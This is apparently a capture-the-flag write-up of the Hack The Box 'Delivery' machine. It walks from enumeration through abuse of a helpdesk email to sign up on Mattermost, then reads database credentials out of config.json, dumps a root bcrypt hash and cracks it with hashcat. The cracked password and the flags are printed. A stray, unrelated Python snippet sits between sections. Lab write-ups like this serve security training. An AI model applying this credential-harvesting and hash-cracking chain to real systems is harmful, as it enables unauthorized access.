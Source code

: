 ```yaml
---
layout: page
permalink: /htb/delivery
permalink_name: /htb/delivery
title: Delivery
---
```

# Enumeration

The initial nmap scan reveals that there are 3 ports open:
```
22/tcp   	open  ssh     		OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   	open  http    		nginx 1.14.2
8065/tcp	open  unknown
```
I was unsuccessful in researching what program runs on this port in my OSINT so I headed over to the box site, http://10.10.10.222. Clicking around on the site brings us to the contact us page which shows:

![image1.png](images/delivery/image1.png)

From this page, we can also see the domain: delivery.htb, which we should add to our /etc/hosts file. Additionally, we can now deduce that the service runing on port 8065 is a MatterMost server.

Heading over to helpdesk.delivery.htb shows us a system for creating support tickets. I attempt to open a new ticket to see what the process is like and if there are any potential attack vectors.

![image2.png](images/delivery/image2.png)

The inputs get sanitized so I wasn't able to perform injecion of PHP code, and SQL injection didn't work either. After filling out the form with fake/nonsense information, we are shown the following message:

![image3.png](images/delivery/image3.png)

This is interesting because it would seem that any message emailed to that support account will be printed in our support thread. This an important detail to note. Since I was not able to find any other attack vectors, let us see what else we can find. Checking out the sign in page leads us to an agent sign-in link, which in turn takes us to the OSTicket log in portal. I tried SQL injection again but no luck.

![image4.png](images/delivery/image4.png)

Now lets check out the MatterMost server. It also greets us with a log in page, but we have the ability to create a new account, or reset a password. From the homepage of delivery.htb, we know that we need an address with the domain of @delivery.htb in order to access this content. 

![image5.png](images/delivery/image5.png)

# Getting User

My first thought was that since we already know of a @delivery.htb address (the one given to us after making a support ticket) then we could potentially request a password reset using that email on the MatterMost server, and then we will receive the link in the support thread, and BOOM. However, this did not work. So my next step was try to use the email account to sign up on MatterMost. 

![image6.png](images/delivery/image6.png)

It worked! After we log into the server we find a message channel with credentials to the OSTicket server and a hint as to what the password of root might be.

![image7.png](images/delivery/image7.png)

Lets log into the server with the provided credentials and capture the user flag.

```
[kevin@ryzen ~]$ ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password:
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 25 07:15:19 2021 from 10.10.14.10
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
c90e841382f400b84697616bb877a272
maildeliverer@Delivery:~$
```

``` python
def test(a1, a2):
  for i in range(1, 3):
    print(i)

```

# Getting Root

From the message in the MatterMost channel, we can assume that we are now looking for hashes that contain the root password. I went back to the OSTicket login portal to try and obtain to clues about where to look. Fortunately, I found a lot.

![image8.png](images/delivery/image8.png)

My next objective is find a MySQL database that might contain password hashes. I start by running the following command to locate where the MatterMost files are stored.
```
maildeliverer@Delivery:~$ find / -iname mattermost  2>&1 | grep -v "Permission denied"
/opt/mattermost
/opt/mattermost/bin/mattermost
/var/lib/mysql/mattermost
maildeliverer@Delivery:~$
```
I do not have sufficient permissions to access the last directory in the list. I decide to check out the first directory, /opt/mattermost. There I find a config directory with a config.json file inside. We are given a user and password to access the SQL database.

![image9.png](images/delivery/image9.png)

```
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 159
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]>

```

Exploring the mattermost db reveals a Users table that contains username and password data. Most importantly, we get the root hash:

![image10.png](images/delivery/image10.png)

root: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

Hashid reveals this to most likely be using Blowfish encryption, mode 3200. I echo the hash into pass.txt and decide to use the best64 rule with hashcat. I also add PleaseSubscribe! to pass.txt since we know that the real password is a variation of it.

```
[kevin@ryzen Delivery]$ hashcat -m 3200 hash.txt pass.txt -r /opt/hashcat/rules/best64.rule --show
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
[kevin@ryzen Delivery]$
```

Now all that remains is to su into root and obtain the root flag.

```
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# cd
root@Delivery:~# cat root.txt
cd4d8dba1cea379c59a9795f553674b2
root@Delivery:~#
```
